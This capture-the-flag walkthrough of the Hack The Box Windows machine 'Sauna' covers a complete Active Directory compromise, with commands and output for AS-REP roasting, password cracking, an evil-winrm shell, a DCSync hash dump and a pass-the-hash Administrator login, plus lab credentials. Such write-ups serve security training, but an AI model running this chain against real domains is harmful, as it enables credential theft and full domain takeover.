




Sauna - K3nX
- This Machine name is Sauna . This is Easy Window Machine and ipaddress is 10.10.10.175

Nmap
# cat sauna.nmap
Nmap scan report for 10.10.10.175
Host is up (0.55s latency).
Not shown: 988 filtered ports
PORT STATE SERVICE VERSION
53/tcp open domain?
| fingerprint-strings:
| DNSVersionBindReqTCP:
| version
|_ bind
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2020-04-04 01:27:16Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/4%Time=5E877FA6%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 7h01m37s
| smb2-security-mode:
| 2.02:
|_ Message signing enabled and required
| smb2-time:
| date: 2020-04-04T01:30:22
|_ start_date: N/A
TRACEROUTE (using port 139/tcp)
HOP RTT ADDRESS
1 434.53 ms 10.10.16.1
2 639.88 ms 10.10.10.175
As nmap result , port 80 httpd and some common AD ports are open
Web Enumeration
I typed this ip address in browser and i saw this webpage

In this webpage I found one interesting name,This is Egotistical Bank
I saw at nmap result , port 53 (domain) port is open
I think it may be a AD domain name
I checked About Us Page , In this page I found some username

I save all of this username as user.txt file
Nmap Result shown Kerberos port 88 is open
I used GetNPUsers.py from impacket tools to get some credentials
Impacket Tools
[root@arch ~/Desktop/htb/Machines/Sauna]# GetNPUsers egotistical-bank.local/ -usersfile user.txt -format john -dc-ip 10.10.10.175
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$fsmith@EGOTISTICAL-BANK.LOCAL:2935d1562cd1bb860bc28bd898873d37$832c7b0129f22010d043bebd922a3ef50be5c61fc58bef0d136cc452f2cfb1388f981a4cce2afd518a4c0d75f341aff03d4a376c2893ede95dc170cd9572f86aa882a118bedae1ba901b12c966ad259199c18d08db52bbd35ad7fa6afc8e957aa010769e050e5f4659f107d29297c46579101f689c5bafdbd92d720d42e9bec53fa2230baa0872f6d4d6327dfe7ea948104a1041822135455461ac774a43b58f7199105473108802135a92e1cbb283c15f48c48c6b58d8e9fe8c5599466b220dfc90bfd4def54984842b8b8edbe932a2b4034acb0f5c5d8d6df04ae4157f6999adf147a85cf7438dce4e73bb7f7cf744d03fb370cd5b66d2d08c53d470537214
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
I got user fsmith hash . I save this file and I crack this hash with john
[root@arch ~/Desktop/htb/Machines/Sauna]# john --show hash
$krb5asrep$fsmith@EGOTISTICAL-BANK.LOCAL:Thestrokes23
1 password hash cracked, 0 left
User
I got user fsmith password
I used evil-winrm to login as user fsmith
[root@arch ~/Desktop/htb/Machines/Sauna]# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.175 -u fsmith -p Thestrokes23
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\FSmith\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\FSmith\Desktop> type user.txt
1b5520b98d************a55baf70cf
*Evil-WinRM* PS C:\Users\FSmith\Desktop>
Privileges Escalation
I uploaded winPEAS for enumeration
winPEAS
I runnned this winpeas
After Running this winPEAS , I found Some AutoLogon credentials

Username : svc_loanmanager
Password: Moneymakestheworldgoround!- We can perform DCSync Attack with this user svc_loanmanager
- You can use two method
- 1.mimikatz
and
2.secretsdump.py But I used secretsdump.py to dump administrator credentials
[root@arch ~/Desktop/htb/Machines/Sauna]# python3 secretsdump.py egotistical-bank.local/svc_loanmgr@10.10.10.175
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:a7689cc5799cdee8ace0c7c880b1efe3:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:987e26bb845e57df4c7301753f6cb53fcf993e1af692d08fd07de74f041bf031
Administrator:aes128-cts-hmac-sha1-96:145e4d0e4a6600b7ec0ece74997651d0
Administrator:des-cbc-md5:19d5f15d689b1ce5
krbtgt:aes256-cts-hmac-sha1-96:83c18194bf8bd3949d4d0d94584b868b9d5f2a54d3d6f3012fe0921585519f24
krbtgt:aes128-cts-hmac-sha1-96:c824894df4c4c621394c079b42032fa9
krbtgt:des-cbc-md5:c170d5dc3edfc1d9
EGOTISTICAL-BANK.LOCAL\HSmith:aes256-cts-hmac-sha1-96:5875ff00ac5e82869de5143417dc51e2a7acefae665f50ed840a112f15963324
EGOTISTICAL-BANK.LOCAL\HSmith:aes128-cts-hmac-sha1-96:909929b037d273e6a8828c362faa59e9
EGOTISTICAL-BANK.LOCAL\HSmith:des-cbc-md5:1c73b99168d3f8c7
EGOTISTICAL-BANK.LOCAL\FSmith:aes256-cts-hmac-sha1-96:8bb69cf20ac8e4dddb4b8065d6d622ec805848922026586878422af67ebd61e2
EGOTISTICAL-BANK.LOCAL\FSmith:aes128-cts-hmac-sha1-96:6c6b07440ed43f8d15e671846d5b843b
EGOTISTICAL-BANK.LOCAL\FSmith:des-cbc-md5:b50e02ab0d85f76b
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes256-cts-hmac-sha1-96:6f7fd4e71acd990a534bf98df1cb8be43cb476b00a8b4495e2538cff2efaacba
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:aes128-cts-hmac-sha1-96:8ea32a31a1e22cb272870d79ca6d972c
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:des-cbc-md5:2a896d16c28cf4a2
SAUNA$:aes256-cts-hmac-sha1-96:5f39f2581b3bbb4c79cd2a8f56e7f3427e707bd3ba518a793825060a3c4e2ef3
SAUNA$:aes128-cts-hmac-sha1-96:c628107e9db1c3cb98b1661f60615124
SAUNA$:des-cbc-md5:104c515b86739e08
[*] Cleaning up...
- I got administrator hash
- I used this administrator hash to login with evil-winrm
- You can use -H option in evil-winrm to login with Hash
[root@arch ~/Desktop/htb/Machines/Sauna]# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.175 -u Administrator -H d9485863c1e9e05851aa40cbb4ab9dff
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
Directory: C:\Users\Administrator\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 1/23/2020 10:22 AM 32 root.txt
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
f3ee04965c*********02cc5e881f
*Evil-WinRM* PS C:\Users\Administrator\Desktop>